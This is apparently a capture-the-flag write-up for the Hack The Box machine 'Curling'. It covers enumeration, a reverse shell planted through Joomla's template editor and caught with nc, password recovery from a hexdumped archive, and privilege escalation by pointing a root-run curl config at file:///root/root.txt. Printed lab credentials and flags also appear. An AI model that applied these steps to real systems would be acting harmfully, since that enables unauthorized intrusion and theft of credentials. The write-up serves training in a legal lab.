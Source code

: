 # Curling
![Alt text](images/0.png)
## Enumeration
As always:
```bash
kali@kali:~/hackthebox/Practice/Curling$ nmap -sC -sV -p- 10.10.10.150 -oN nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 10:41 EDT
Nmap scan report for 10.10.10.150
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.43 seconds
```
We only have to worry about two ports, so lets look at the web app. 
![Alt text](images/1.png)
And we see a blog post about curling.A couple usernames we see are floris and Super User. Lets start gobuster...
```bash
kali@kali:~/hackthebox/Practice/Curling$ ~/Downloads/gobuster/gobuster dir -u 10.10.10.150 -w /usr/share/wordlists/dirb/directory-list-1.0.txt -x php,html,log,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.150
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,log,txt
[+] Timeout:        10s
===============================================================
2020/06/18 10:48:01 Starting gobuster
===============================================================
/images (Status: 301)
/media (Status: 301)
/index.php (Status: 200)
/templates (Status: 301)
/bin (Status: 301)
/libraries (Status: 301)
/includes (Status: 301)
/plugins (Status: 301)
/language (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/cache (Status: 301)
/secret.txt (Status: 200)
/configuration.php (Status: 200)
/layouts (Status: 301)
```
We found two things, /administrator 
![Alt text](images/2.png)

and /secret.txt

![Alt text](images/3.png)
And it turns out to be base64 encoded so lets see what it's hiding.
```bash
kali@kali:~$ echo 'Q3VybGluZzIwMTgh' | base64 -d
Curling2018!
kali@kali:~$ 
```
And with the credentials floris:Curling2018! we are able to login to the admin panel. 
![Alt text](images/4.png)
## Foothold
After poking around, we find a media panel to upload pictures, so I tried to upload a php reverse shell but it gave me notice telling me that the file was unsafe. But I did find a php editor where we can edit the php to give me a reverse shell and then use the preview feature to trigger it.
![Alt text](images/5.png)
and
![Alt text](images/6.png)
and we get a shell!
```bash
nc -l -p 1234
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:08:15 up 27 min,  0 users,  load average: 0.06, 0.12, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@curling:/$ 
```
## User
I /home/floris we were able to find user.txt and /admin-area but we didn't have read priviledges yet. 
```bash
www-data@curling:/home/floris$ ls -la
ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```
But I found an interesting file called password-backup:
```bash
www-data@curling:/home/floris$ file password_backup
file password_backup
password_backup: ASCII text
www-data@curling:/home/floris$ cat password_backup
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.'F...s.'
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$ 
```
Lets copy this to a text file, edit out the portion on the right, and try to revert back form the hexdump. 
```bash
kali@kali:~/hackthebox/Practice/Curling$ cat dump.txt
00000000 425a 6839 3141 5926 5359 819b bb48 0000  
00000010 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  
00000020 4edc cccc 6e11 5400 23ab 4025 f802 1960  
00000030 2018 0ca0 0092 1c7a 8340 0000 0000 0000  
00000040 0680 6988 3468 6469 89a6 d439 ea68 c800  
00000050 000f 51a0 0064 681a 069e a190 0000 0034  
00000060 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  
00000070 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  
00000080 f53e 0809 f073 5654 c27a 4886 dfa2 e931  
00000090 c856 921b 1221 3385 6046 a2dd c173 0d22  
000000a0 b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  
000000b0 ad6b b12f 0813 8120 8205 a5f5 2970 c503  
000000c0 37db ab3b e000 ef85 f439 a414 8850 1843  
000000d0 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  
000000e0 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  
000000f0 819b bb48
kali@kali:~/hackthebox/Practice/Curling$ xxd -r dump.txt > dump
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: bzip2 compressed data, block size = 900k # What's in here?
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ bzip2 -d dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.tgz   
kali@kali:~/hackthebox/Practice/Curling$ gunzip dump.tgz
kali@kali:~/hackthebox/Practice/Curling$ tar -xvf dump.tar
password.txt
kali@kali:~/hackthebox/Practice/Curling$ cat password.txt 
5d<wdCbdZu)|hChXll
```
Great, let's log into floris!
'''bash
www-data@curling:/home/floris$ su floris
su floris
Password: 5d<wdCbdZu)|hChXll

floris@curling:~$ ls
ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user
cat user.txt 
65dd1df0713b40d88ead98cf11b8530b
floris@curling:~$ 
```
## Priviledge Escalation
Now that we have more access, let's try to see what's in the admin area.
```bash
floris@curling:~$ cd admin-area
cd admin-area/
floris@curling:~/admin-area$ ls
ls
input  report
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1"
floris@curling:~/admin-area$ cat report
cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
floris@curling:~/admin-area$ 
```
Interesting, maybe try changing the url input?
```bash
floris@curling:~/admin-area$ echo 'url = "http://127.0.0.1/secret.txt"' > input
< echo 'url = "http://127.0.0.1/secret.txt"' > input
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1/secret.txt" #Wait a few seconds
floris@curling:~/admin-area$ cat report
cat report
Q3VybGluZzIwMTgh
```
So we can use this to access the system files, lets change the input again.
```bash
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
echo 'url = "file:///root/root.txt"' > input
floris@curling:~/admin-area$ cat report
cat report
82c198ab6fc5365fdc6da2ee5c26064a
```
## Conclusion
The foothold was pretty straightforward, but I really enjoyed getting user and root.
